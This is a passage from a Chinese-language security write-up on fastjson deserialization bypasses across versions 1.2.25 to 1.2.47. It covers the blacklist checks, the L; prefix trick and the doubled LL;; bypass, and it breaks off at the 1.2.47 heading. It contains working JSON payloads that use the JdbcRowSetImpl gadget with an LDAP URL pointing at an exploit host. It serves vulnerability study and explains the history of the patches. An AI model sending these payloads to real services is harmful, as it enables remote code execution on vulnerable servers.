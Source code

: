 在1.2.24出现漏洞之后，官方增加了一些防御措施。

首先是默认关闭了`autoType`，这次绕过也是建立在开启`autoType`的前提之下。

在加载类的时候会进行黑白名单的检测：

`fastjson-1.2.25-sources.jar!/com/alibaba/fastjson/parser/ParserConfig.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191024213552.png)

黑名单为官方维护，白名单由开发者自行维护：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191024213719.png)

问题出在检测之后加载类的时候：

`fastjson-1.2.25-sources.jar!/com/alibaba/fastjson/util/TypeUtils.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025105743.png)

如果类名是`L`开头，`;`结尾，会将这两个字符去掉。在进行黑名单检测的时候使用的`startWith`，所以我们提交

```json
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://127.0.0.1:1099/Exploit","autoCommit":true}
```

即可绕过类名检测。

##### 1.2.42

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025111225.png)

一个无效的补丁，如果类名是`L`开头，`;`结尾，会将这两个字符去掉，然后再检测，那再加一层`L;`不就好了。

```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://127.0.0.1:1099/Exploit","autoCommit":true}
```

另外值得注意的一点是fastjson将黑名单变为了hash，增加漏洞挖掘的难度。

可以通过遍历的方式获得黑名单的明文：

[https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

##### 1.2.43

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025112811.png)

简单粗暴的修补，类名开头如果是`LL`直接抛异常。

##### 1.2.47

前面几个绕过都是在`autoType`开启的前提下，然而`autoType`默认是关闭的，绕过`autoType`也成为了攻击fastjson最核心也是最困难的部分。

这次漏洞是通过java.lang.Class，将JdbcRowSetImpl类加载到map缓存，从而绕过autotype的检测。

payload：
